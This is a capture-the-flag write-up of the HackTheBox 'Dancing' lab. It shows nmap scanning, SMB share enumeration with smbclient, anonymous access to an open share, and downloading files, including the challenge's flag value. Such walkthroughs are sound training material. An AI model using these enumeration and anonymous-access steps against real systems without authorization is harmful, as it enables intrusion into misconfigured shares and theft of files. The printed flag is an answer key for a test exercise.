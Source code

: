 ```yaml
---
title: HackTheBox - Dancing
date: 2023-12-25 05:06:00 +0700
categories:
  - HackTheBox
  - Starting Point
tags:
  - smb
  - databases
  - very_easy
  - hackthebox
image:
  path: /assets/img/hackthebox/starting_points/Dancing.png
  alt: Dancing - HackTheBox
---
```


[**Dancing**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Dancing we will learn about **SMB (Server Message Block)**.

## Introduction

- Connect **Dancing** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.236.96

PING 10.129.236.96 (10.129.236.96) 56(84) bytes of data.
64 bytes from 10.129.236.96: icmp_seq=1 ttl=127 time=263 ms
64 bytes from 10.129.236.96: icmp_seq=2 ttl=127 time=286 ms
64 bytes from 10.129.236.96: icmp_seq=3 ttl=127 time=310 ms
64 bytes from 10.129.236.96: icmp_seq=4 ttl=127 time=231 ms

--- 10.129.236.96 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3002ms
rtt min/avg/max/mdev = 231.476/272.733/309.960/28.947 ms
```

### Nmap

To be able to see all open ports, we can use `Nmap`, `-sCV` is a combination of `-sC` and `-sV`, where `-sC` displays the script for the port and `-sV` displays the version info for the port. 

```bash
❯ nmap -sCV 10.129.236.96

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-25 05:12 WIB
Nmap scan report for JSN.JaringanKU (10.129.236.96)
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-12-25T02:14:25
|_  start_date: N/A
|_clock-skew: 4h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.36 seconds
```

## Foothold

We can see, there is port 445/tcp which is the port for **SMB/SAMBA** services.

### SMB/SAMBA

Type `smbclient`, and add `-L` to get a list of shares available from the host.

```bash
❯ smbclient -L 10.129.236.96

Password for [WORKGROUP\huda]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      

SMB1 disabled -- no workgroup available
```

Look at the end of the sharename, if there is a $ sign then we need a password to enter it. If there is no $, we can log in using `-N` which is used to log in without a password.

```bash
❯ smbclient -N //10.129.236.96/WorkShares

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 15:22:01 2021
  ..                                  D        0  Mon Mar 29 15:22:01 2021
  Amy.J                               D        0  Mon Mar 29 16:08:24 2021
  James.P                             D        0  Thu Jun  3 15:38:03 2021

		5114111 blocks of size 4096. 1748932 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 16:08:24 2021
  ..                                  D        0  Mon Mar 29 16:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 18:00:37 2021

		5114111 blocks of size 4096. 1748932 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0,1 KiloBytes/sec) (average 0,1 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 15:38:03 2021
  ..                                  D        0  Thu Jun  3 15:38:03 2021
  flag.txt                            A       32  Mon Mar 29 16:26:57 2021

		5114111 blocks of size 4096. 1748900 blocks available
smb: \James.P\> echo flag.txt
echo <num> <data>
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,0 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```

After downloading everything, exit SMB and open it in your working directory.

```bash
❯ ls
 flag.txt
 worknotes.txt

❯ cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing

❯ cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```
